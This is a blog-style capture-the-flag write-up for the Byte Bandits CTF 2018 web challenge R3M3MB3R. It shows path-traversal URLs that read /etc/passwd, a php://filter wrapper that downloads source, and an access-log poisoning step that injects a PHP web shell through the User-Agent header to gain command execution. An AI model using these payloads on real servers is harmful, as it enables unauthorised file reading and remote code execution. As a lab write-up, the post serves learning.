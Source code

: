 ```yaml
---
layout: post
title: Byte Bandits CTF 2018 - R3M3MB3R
author:
  name: Crisis
comments: true
---
```

I also participated in the Byte Bandits CTF this weekend. This web challenge encountered somes issues and was modified a few times from what I saw, so other people might have not done it the way I have. But anyway, here's how I did it.  
The vulnerability was a local file inclusion (LFI). It was easy to find: if you visited `http://web.euristica.in/R3M3MB3R/index.php?f=../../../etc/passwd`, you would get the passwd file. The tricky thing was that `index.php` was filtered in the URL, so it was not possible to directly include it. Some PHP wrappers were activated on the server, so I managed to download the `eg.php` file that way ([http://web.euristica.in/R3M3MB3R/index.php?f=php://filter/read=convert.base64-encode/resource=eg.php](http://web.euristica.in/R3M3MB3R/index.php?f=php://filter/read=convert.base64-encode/resource=eg.php)), but nothing interesting was in it, and because of the filter you couldn't retrieve the index like this.  
After some time spent trying, and failing, to bypass that filter, I decided to try something else. My next idea was to include some log files from the server, in which I could inject some PHP code that would be executed when included. I've recently [read a bit on the subject](http://ly0n.me/2015/10/19/lfi-beyond-procselfenviron/), and I found several files:  
```
http://web.euristica.in/R3M3MB3R/index.php?f=../../../var/log/apache2/access.log
http://web.euristica.in/R3M3MB3R/index.php?f=../../../proc/self/fd/2
http://web.euristica.in/R3M3MB3R/index.php?f=../../../proc/self/fd/7
```
PHP code could be injected in each of these logs files using different ways, but to get the flag I used `access.log`. They had a few issues with that file during the CTF. It was removed at some point, then was blocked, then was cleared every 30 seconds or so, and that's how it stayed until the end I believe.  
I injected PHP in the page by modifying my `User-Agent` header with Burp:
```php
User-Agent: <?php echo shell_exec($_REQUEST['cmd']); ?>
```
A simple `ls` revealed where the flag was:
![phpinfo](/medias/bytesbandit18/cat.png)  
  
And you could then directly access it:
```
http://web.euristica.in/R3M3MB3R/S3cR3T_FL4G.txt
flag{S0metim3s_it5_b3tter_to_4_GET} 
```
They changed the file's name later on, and it became `S3cR3T_FL4G_da456sds.txt`. Not sure why, and it might have changed some more, but that's how it was called initially anyway. 
With code execution, you could of course download `index.php` as well by doing `cat /var/www/html/index.php|base64`, but [there was nothing interesting in it](/medias/bytesbandit18/index.txt).